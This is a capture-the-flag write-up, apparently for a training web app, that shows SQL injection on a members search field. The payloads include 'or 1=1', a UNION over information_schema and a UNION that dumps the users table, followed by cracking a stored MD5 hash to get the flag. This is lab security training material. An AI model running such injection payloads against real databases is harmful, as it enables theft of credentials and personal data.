




# Members search SQL Injection

## Demonstration

You need to click on the "MEMBERS" button.
The page opens http://IP_ADDRESS_HOST/?page=member .
The search bar assumes entering the member number, for example, when entering "1", ID, First name, Surname are displayed.



If you enter "1 or 1=1", we get a list of all the entries in the table with members.



If you enter "1 or 1=1 UNION SELECT table_name, column_name FROM information_schema.columns", we get a list of all columns and tables in the DB.
We are interested in a table with users.



If you enter "1 or 1=1 UNION SELECT commentaire, countersign FROM users", we will get comments and countersign for each user.



We are interested in the line that is filled in the First name: "Decrypt this password -> then lower all the char. Sh256 on it and it's good !" and Surname: "5ff9d0165b4f92b14994e5c685cdce28".
Go to the [md5decrypt](https://md5decrypt.net/) and when decoding we get: FortyTwo.
Then, to get the flag, you need to run the command in the terminal:
```sh
echo -n fortytwo | shasum -a 256
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```

## Explanation

SQL Injection is one of the most common ways to get private information. Attackers are looking for vulnerabilities in the code, if the program does not validate the input request and directly transmits the request to the DB, then data such as password, personal data and other secret data can be obtained.
